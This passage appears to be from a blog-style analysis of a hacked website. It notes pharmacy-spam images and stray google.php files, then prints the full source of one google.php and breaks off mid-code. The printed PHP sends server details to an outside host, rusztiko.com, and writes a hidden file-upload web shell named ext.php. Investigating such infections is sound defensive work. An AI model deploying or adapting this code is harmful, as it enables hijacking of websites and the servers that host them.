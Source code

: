 Already we can see some of the 'interesting' stuff like a `google.php` in every other folder as well as some pictures called `xanax.png`, `viagra.png` etc.. What should be a folder for documentation seems to be a drugstore.

Let's take a look at `cron/google.php` which is referenced in `cron/index.html` as a `src` attribute in a `<script>` tag:

```
<?php
$document_root  = realpath($_SERVER["DOCUMENT_ROOT"]);
$document_root  = str_replace("\\", "\\\\", $document_root);
$working_dir    = dirname(__FILE__);
$ip          = gethostbyname($_SERVER['HTTP_HOST']);
$serverStr   = php_uname('s')." ".php_uname('r')." ".php_uname('v')." ".php_uname('m');
if (strtoupper(substr(PHP_OS, 0, 3)) === 'WIN') {
    $serverStr .= $_SERVER["SERVER_SOFTWARE"];
}
$serverStr = urlencode($serverStr);
$pp = realpath(__FILE__);
$pp  = str_replace("\\", "\\\\", $pp);
print "document.write('<script src=\"http://rusztiko.com/sh2.php?serverStr=$serverStr&req_type=add_site&document_root=$document_root&ip=$ip&domain='+window.location.hostname+'&uplUrl=$pp\"><\/script>');";
$fp = fopen(__FILE__, "r");
$is = false;
$files = array();
while(!feof($fp)) {
    $line = fgets($fp, 4096);
    if ($is) {
        if (preg_match("/\*\//", $line) > 0) {
            break;
        }
        $line = trim($line);
        if (strlen($line) > 0) {
            $files[] = $line;
        }
    }
    if (preg_match("/\/\*/", $line) > 0) {
        $is = true;
    }
}
fclose($fp);

$fp = fopen(dirname(__FILE__)."/ext.php", "w");
fwrite($fp, "<?php error_reporting(0);@ini_set(\"display_errors\", 0);\$var= \$_SERVER['PHP_SELF'].\"?\";\$form ='<form enctype=\"multipart/form-data\" action=\"'.\$var.'\" method=\"POST\"><input name=\"uploadFile\" type=\"file\"/><br/><input type=\"submit\" value=\"Upload\" /></form>';if (!empty(\$_FILES['uploadFile'])) {\$self=dirname(__FILE__);move_uploaded_file(\$_FILES[\"uploadFile\"][\"tmp_name\"], \$self.DIRECTORY_SEPARATOR.\$_FILES[\"uploadFile\"][\"name\"]);\$time=filemtime(\$self);print \"OK\";} else {print \$form;} ?>");
fclose($fp);
foreach($files as $path) {
    $time = filemtime($path);
    $dirTime = filemtime(dirname(__FILE__));

    $fp = @fopen($path, "r");
    $line = "";
    while(!@feof($fp)) {
        $line .= @fgets($fp, 4096);
    }
    $line = preg_replace("/<?print \"<!--service_start-->.*<!--service_end-->\";/is", "", $line);
    $line = preg_replace("/print \"<!--service_start-->.*<!--service_end-->\";/is", "", $line);
    $line = preg_replace("/<!--service_start-->.*<!--service_end-->/is", "", $line);
    @fclose($fp);

```